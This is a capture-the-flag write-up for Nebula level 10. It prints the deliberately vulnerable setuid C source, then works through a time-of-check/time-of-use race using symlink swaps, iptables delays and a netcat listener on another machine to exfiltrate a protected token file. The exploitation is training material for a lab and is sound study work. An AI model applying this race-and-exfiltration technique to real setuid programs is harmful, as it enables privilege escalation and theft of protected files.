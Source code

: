 # Nebula - Level 10

### About ###

>The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.
>
>To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

### Solution ###

`./flag10` first checks the permissions of the file passed in argument, connects to the machine with the IP `host`, then opens and reads the file and finally send it to the other machine.

Since the permissions are not checked after the connection is established, any file can be sent by delaying this connection.

First of all, a listening server is started on the port 18211 of another machine.

```
root@kali:~# nc -l -k -p 18211 &
[1] 10217
```

Then, the connection is blocked with an iptable rule which drops the incoming packets on the port 18211.

```
root@kali:~# iptables -A INPUT -p tcp --destination-port 18211 -j DROP
```

On the machine nebula, in order to bypass the access syscall, a symlink is created to a resource accessible, in that case `/dev/null`.

`./flag10` can now be launched.

```
level10@nebula:/home/flag10$ ln -s /dev/null /tmp/token
level10@nebula:/home/flag10$ ./flag10 /tmp/token 192.168.0.15 &
[1] 3372
Connecting to 192.168.0.15:18211 ..
```

The connection has not been established yet. The target of the symlink can now be changed to `/home/flag10/token` …

```
level10@nebula:/home/flag10$ rm -rf /tmp/token
level10@nebula:/home/flag10$ ln -s /home/flag10/token /tmp/token
```

... and remove the iptables rule on the other machine.

```
root@kali:~# iptables -D INPUT 1
```

The connection is finally established, `/home/flag10/token` content is sent ...

```
level10@nebula:/home/flag10$ fg %1
./flag10 /tmp/token 192.168.0.15
Connected!
Sending file .. wrote file!
```

... and it can be read on the other machine.

```
root@kali:~# .oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
